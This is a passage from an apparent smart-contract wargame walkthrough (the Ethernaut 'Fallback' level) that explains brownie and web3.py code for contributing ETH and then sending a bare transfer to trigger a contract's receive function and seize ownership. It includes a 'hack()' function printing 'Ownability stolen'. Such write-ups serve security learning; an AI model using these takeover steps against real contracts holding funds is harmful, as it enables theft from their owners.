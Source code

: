 You can read more about the transaction parameters [here.](https://eth-brownie.readthedocs.io/en/stable/core-contracts.html#transaction-parameters)

In those transaction parameters we also have the `value` parameter, **which allows us to send money (ETH) to the smart contract**, in this case we are sending 0.00001, formatting the number using the `toWei` function provided by `web3.py`

When we call a function of a smart contract in brownie, **that function is going to return us a transaction object which we can inspect or interact later**, that’s why I’m storing that transaction in a variable, and also to be able to make the transaction wait for one block for confirmation.

```
contribute_tx.wait(1)
```

Now, let’s call the `receive` function.

##### Activating the receive function. 

```
def hack():
    fallback_contract = interface.Fallback(CONTRACT_ADDRESS)
    print(Contract)
    tx = ACCOUNT.transfer(
      fallback_contract.address, 
      Web3.toWei(0.000002, "ether")
    )
    tx.wait(1)
    print("Ownability stolen")
```

Copying the same first statement of our `contribute` function, to grab the contract object.

```
fallback_contract = interface.Fallback(CONTRACT_ADDRESS)
```

We can make a transaction to a smart contract without any parameters by using the special function provided by the `account` type in brownie: `transfer`

In which we specified: 

1. the address which we are going to send money, in this case the Fallback smart contract:
2. and the amount of money that we want to send

```
tx = ACCOUNT.transfer(
      fallback_contract.address, 
      Web3.toWei(0.000002, "ether")
    )
```

And we already see how a receive function works,** so it’s going to activate whenever a EOA** (Externally owned Account) **makes a transaction to the address of the smart contract without passing any function signatures.**

And we wait one block for the confirmation of the transaction.

```
tx.wait(1)
```

